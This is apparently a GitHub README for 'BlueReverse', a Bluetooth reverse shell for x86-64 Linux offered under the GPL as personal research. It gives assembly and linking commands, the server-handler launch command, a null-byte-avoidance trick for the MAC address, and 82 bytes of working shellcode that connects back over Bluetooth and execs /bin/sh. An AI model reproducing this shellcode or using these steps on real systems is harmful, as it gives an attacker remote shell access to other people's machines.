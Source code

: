 BlueReverse
===========

Bluetooth reverse shell currently for x86-64 system.<br/>


Copyright (C) 2018  Neetx

BlueReverse is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

BlueReverse is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>

### CONTACTS:
[Neetx](mailto:neetx@protonmail.com)

---

BlueReverse has been implemented as personal research and fun. I provide you .asm file (client side), .py 2.7 file (server side) and the shellcode.

You must fill .asm and .py with your mac and with your desired channel for the communication. Then:
```
nasm -f elf64 brev_shell.asm -o test.o
ld test.o -o test
```

Now you must start the server:
```
python bluereversehandler.py
```

And now you can launch test:
```
./test
```
You will get prompt on server side.
I tested the code with a rpi3 (server) and a Debian Stretch (client).

---

### Shellcode:

If you need shellcode you can use my tool ShellcodeExtractor (https://github.com/Neetx/Shellcode-Extractor)

```
objdump -D test.o | python shellcode_extractor.py
```

My output and lenght:
\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\x9f\xea\xa3\x14\xd8\x47\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05
82

You must do it by yourself because you have another MAC and maybe another channel.
If you don't use my tool or another tool/command you have to put your MAC manually after NOT operation, because of this in .asm:
```
mov rcx, ~0xXXXXXXXXXXXX001f		;mac + family(1f=31)
not rcx
```
(~ MAC + 00 (filler) + 1f (family))

00 is a nullbyte and to avoid it I use ~ , so the value after ~ is stored in the binary after a NOT operation and 00 become FF. Then i used "not rcx" to obtain the desired value.

### Test Shellcode:

Put your shellcode in the shellcode_tester.c, compile it and test. 



